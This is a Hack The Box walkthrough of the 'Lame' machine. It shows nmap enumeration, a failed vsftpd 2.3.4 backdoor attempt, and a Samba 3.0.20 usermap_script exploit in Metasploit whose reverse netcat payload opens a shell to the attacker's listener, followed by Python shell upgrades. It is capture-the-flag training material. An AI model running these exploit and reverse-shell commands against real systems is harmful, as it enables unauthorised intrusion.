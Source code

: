 # HTB - Lame

IP: 10.10.10.3  
Difficulty: Easy  
Tags: FTP, Samba, Reverse Shell

---

## Nmap Scan & Service Enumeration

Started with a basic nmap scan:

```bash
nmap 10.10.10.3
```

Then checked the version of the FTP service:

```bash
nmap -sV -p 21 10.10.10.3
```

Found: `vsftpd 2.3.4`, which is a known vulnerable version.

---

## Trying vsftpd 2.3.4 Exploit

I used Metasploit to attempt the exploit:

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.3
run
```

Unfortunately, this didn't result in a shell. So I moved on to checking SMB.

---

## SMB Version Check

Scanned the SMB ports:

```bash
nmap -sV -p 139,445 10.10.10.3
```

The version wasn't clear, so I used smbclient:

```bash
smbclient -L 10.10.10.3 -N
```

This revealed that the target is running **Samba 3.0.20**, which is vulnerable to the `usermap_script` exploit.

---

## Exploiting Samba 3.0.20

Back to Metasploit:

```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set RPORT 139
set LHOST 10.10.14.106     # replace with your tun0 IP
set LPORT 4444
set PAYLOAD cmd/unix/reverse_netcat
run
```

Before running the above, I started a Netcat listener in another terminal:

```bash
nc -lvnp 4444
```

After executing the exploit, Metasploit didn’t show a session, but my Netcat listener caught a shell:

```
[*] Command shell session 1 opened
```

---

## Upgrading the Shell (Optional)

To get a more usable shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

If Python 2 isn't available:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Summary Table

| Service | Port | Version     | Exploit Module                             | Result     |
|---------|------|-------------|--------------------------------------------|------------|
| FTP     | 21   | vsftpd 2.3.4| exploit/unix/ftp/vsftpd_234_backdoor       | ❌ Failed  |
| SMB     | 139  | Samba 3.0.20| exploit/multi/samba/usermap_script         | ✅ Success |

---

## Final Notes

- The FTP backdoor exploit didn’t work, but it was worth a try.
- smbclient was helpful for identifying the vulnerable Samba version.
- Listener is important — Metasploit may not show an open session.
- Upgrading to a proper shell using Python makes interaction easier.


Author: Srikanth A  
Platform: Hack The Box  
Machine: Lame  
Level: Easy

